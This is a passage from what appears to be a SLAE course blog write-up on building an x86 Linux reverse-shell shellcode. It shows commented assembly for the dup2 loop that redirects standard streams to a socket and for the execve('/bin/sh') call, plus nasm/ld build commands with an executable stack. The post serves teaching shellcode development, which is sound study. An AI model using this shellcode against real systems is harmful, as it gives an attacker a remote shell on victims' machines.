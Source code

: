 mov ebx, esi   <span style="color:#33cccc;">; move sockfd descriptor to ebx </span>
xor ecx, ecx   <span style="color:#33cccc;">; zero out the ecx register before using it </span> 
lo:
  mov al, 0x3f <span style="color:#33cccc;">; the functional number that indicates dup2 (63 in dec) </span>
  int 0x80     <span style="color:#33cccc;">; call dup2 syscall  </span>
  inc ecx      <span style="color:#33cccc;">; increase the value of ecx by 1 so it will take all values 0(stdin), 1(stdout), 2(stderr) </span>
  cmp cl, 0x2  <span style="color:#33cccc;">; compare ecx with 2 which indicates the stderr descriptor </span>
  jle lo       <span style="color:#33cccc;">; loop until counter is less or equal to 2 </span>
</pre>

<h3>execve Function Synopsis</h3>
<p style="text-align:justify;">Now that the standard input, output and error are pointing to 0,1,2 file descriptors, the run the <strong>execve</strong> function will be run in order to execute the <strong>/bin/sh</strong> command to the target host.</p>

```c
#include <unistd.h>

int execve(const char *filename, char *const&nbsp;argv[],
char *const&nbsp;envp[]);
```

<h3>Execve:</h3>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
;; execve("/bin/sh", 0, 0);
xor eax, eax      <span style="color:#33cccc;">; zero out the eax register </span>
push eax          <span style="color:#33cccc;">; push NULL into the stack  </span>
push 0x68732f2f   <span style="color:#33cccc;">; push "hs//" in reverse order into stack </span>
push 0x6e69622f   <span style="color:#33cccc;">; push "nib/" in reverse order into stack </span>
mov ebx, esp      <span style="color:#33cccc;">; point ebx into stack </span>
push eax          <span style="color:#33cccc;">; push NULL into the stack </span>
mov edx, esp      <span style="color:#33cccc;">; point to edx into stack </span>
push ebx          <span style="color:#33cccc;">; push ebx into stack </span>
mov ecx, esp      <span style="color:#33cccc;">; point to ecx into stack </span>
mov al, 0xb       <span style="color:#33cccc;">; 0xb indicates the execve syscall </span>
int 0x80          <span style="color:#33cccc;">; execute execve syscall </span>
</pre>

<p style="text-align:justify;">As just shown, the <strong>/bin/sh</strong> string is pushed onto the stack in reverse order by first pushing the terminating null value of the string, and then pushing the <strong>//sh (4 bytes are required for alignment and the second / has no effect)</strong>, and finally pushing the<strong> /bin</strong> onto the stack. At this point, we have all that we need on the stack, so <strong>esp</strong> now points to the location of <strong>/bin/sh</strong>.</p>
Now that the code is ready, it is time to test it. The following commands will be used in order to compile and link the code.

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># nasm -f elf32 -o reverse.o reverse.nasm
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># ld -z execstack -o reverse reverse.o
</pre>
